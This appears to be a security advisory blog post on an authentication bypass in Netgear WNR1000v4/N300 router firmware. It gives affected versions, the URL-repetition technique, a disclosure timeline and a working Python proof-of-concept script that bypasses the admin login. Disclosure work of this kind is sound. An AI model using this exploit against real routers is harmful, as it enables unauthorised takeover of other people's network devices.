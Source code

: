 ```yaml
---
layout: post
author: H4
---
```


# Netgear WNR1000v4 AuthBypass [1]
[Details](https://www.exploit-db.com/exploits/39356)

# Media and Other Mentions
[https://www.bbc.com/news/technology-34491583](https://www.bbc.com/news/technology-34491583)
[routersploit](https://github.com/threat9/routersploit/blob/master/routersploit/modules/exploits/routers/netgear/n300_auth_bypass.py)
[https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html](https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html)
[https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/](https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/)

# Introduction
Multiple NETGEAR wireless routers are out of the box vulnerable to an authentication bypass attack. No router options has to be changed to exploit the issue. So an attacker can access the 
administration interface of the router without submitting any valid username and password, just by requesting a special URL several times.

# Affected
- Router Firmware: N300_1.1.0.31_1.0.1.img
- Router Firmware; N300-1.1.0.28_1.0.1.img
- Router Firmware; N300-1.1.0.24_1.0.1.img
- tested and confirmed on the WNR1000v4 Router with both firmwares
- other products may also be vulnerable because the firmware is used in multiple devices

# Technical Description
The attacker can exploit the issue by using a browser or writing a simple exploit.
1. When a user wants to access the web interface, a http basic authentication login process is initiated
2. If he does not know the username and password he gets redirected to the 401_access_denied.htm file
3. An attacker now has to call the URL http://<ROUTER-IP>/BRS_netgear_success.html multiple times
- After that the adversary can access the administration web interface and there is no username/password prompt

# PoC Python Script
```python
import os
import urllib2
import time
import sys

try:
	first = urllib2.urlopen("http://" + sys.argv[1])
	print "No password protection!"
except:
	print "Password protection detected!"
	print "Executing exploit..."
	for i in range(0,3):
		time.sleep(1)
		urllib2.urlopen("http://" + sys.argv[1] + "/BRS_netgear_success.html")

	second = urllib2.urlopen("http://" + sys.argv[1])
	if second.getcode() == 200:
		print "Bypass successfull. Now use your browser to have a look at the admin interface."
```

# Timeline
- 21.07.2015: Vendor notified per email (security@netgear.com) -> No response
- 23.07.2015: Vendor notified via official chat support
- 24.07.2015: Support redirected notification to the technical team
- 29.07.2015: Requested status update and asked if they need further assistance -> No response
- 21.08.2015: Notified vendor that we will go full disclosure within 90 days if they do not react
- 03.09.2015: Support again said that they will redirect it to the technical team
- 03.09.2015: Netgear sent some beta firmware version to look if the vulnerability is fixed
- 03.09.2015: Confirmed to Netgear that the problem is solved in this version -> Asked Netgear when they plan to release the firmware with this security fix
- 11.09.2015: Response from Netgear saying they will not disclose the patch release day
- 15.09.2015: Asked Netgear again when they plan to publish the security fix for the second time -> No response
- 29.09.2015: Full disclosure of this vulnerability by SHELLSHOCK LABS
- 06.10.2015: Forced public release of this advisory to follow up on [2]

# References
[1] http://support.netgear.com/product/WNR1000v4
[2] http://www.shellshocklabs.com/2015/09/part-1en-hacking-netgear-jwnr2010v5.html

